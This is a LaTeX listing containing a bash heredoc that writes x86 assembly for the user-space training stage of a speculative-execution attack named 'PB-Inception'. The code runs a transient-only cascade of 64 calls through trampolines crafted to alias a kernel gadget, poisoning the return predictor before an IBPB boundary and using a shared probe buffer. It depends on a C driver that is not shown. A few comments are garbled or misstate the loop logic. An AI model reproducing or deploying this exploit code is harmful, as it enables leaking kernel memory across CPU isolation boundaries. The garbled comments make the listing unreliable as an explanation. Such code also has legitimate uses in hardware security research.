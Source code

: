 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, alsolanguage=C]
info "Writing user ASM (pre-IBPB transient training) - pbinc.asm"
cat > "${USER_DIR}/pbinc.asm" <<'EOF'
global pbinc_entry
extern __pbinc_kernel_gadget_addr     ; From C driver: patched with KVA of kernel gadget
extern __pbinc_probe_shared           ; From C driver: VA of shared probe buffer (1MB)
extern __alias_tbl                    ; Runtime-patched: array of 64 callsite trampoline entry pointers
extern __slow_predicate_ptr           ; Runtime: mapped slow memory (used to delay JE resolution)

section .text

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Entry point for the PB-Inception userland training harness
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
pbinc_entry:
    call pre_ibpb_transient_train   ;Run transient training before IBPB
    mov  rax, 39                    ; getpid -> syscall entry (IBPB boundary)
    syscall                         ; Cross IBPB boundary (causes entry-IBPB in guest)
.spin:
    pause                           ; Not kill threat -> inf loop -> keep-alive threat
    jmp  .spin

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Pre-IBPB transient training block
; - Uses a backward mispredicted JE to speculatively execute call cascade
; - No call here retires (training must be transient-only)
; => 64 calls -> return predictor pressure
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
pre_ibpb_transient_train:
    jmp  .do_branch                ; Skip call cascade architecturally (forward jump)
                                   ; Under normal (architectural) execution, the call cascade never runs
                                   ; Means if the "normal" paths are taken it wouldnt run

.speculative_call_cascade:
    mov  rsi, [rel __alias_tbl]    ; Load pointer to trampoline entry array (call sites)
    mov  ecx, 64                   ; Number of transient call targets
.alias_loop:
    call qword [rsi]               ; Speculative CALL -> pushes RA to stack -> biases return predictor
    add  rsi, 8                    ; Trampolines are crafted to have return addresses that alias the kernel gadget
    dec  ecx                       ; Advance to next entry in trampoline table
    jnz  .alias_loop               ; Loop until all 64 calls are issued -> until z-flag not 0
    ret

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Branch predicate that keeps JE unresolved long enough to execute the cascade
; - Must not use lfence -> all memory loads before lfence must complete -> not speculatively run anymore
; - The memory at __slow_predicate_ptr should be slow (uncached / fault-suppressed / mapped to delay)
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
.do_branch:
    mov  rdx, [rel __slow_predicate_ptr]  ; runtime: slow mapped memory
    mov  rax, [rdx]
    cmp  rax, 0xdeadbeef
    je   .speculative_call_cascade        ; backward Jcc (target above)
    ret


\end{lstlisting}
\end{document}
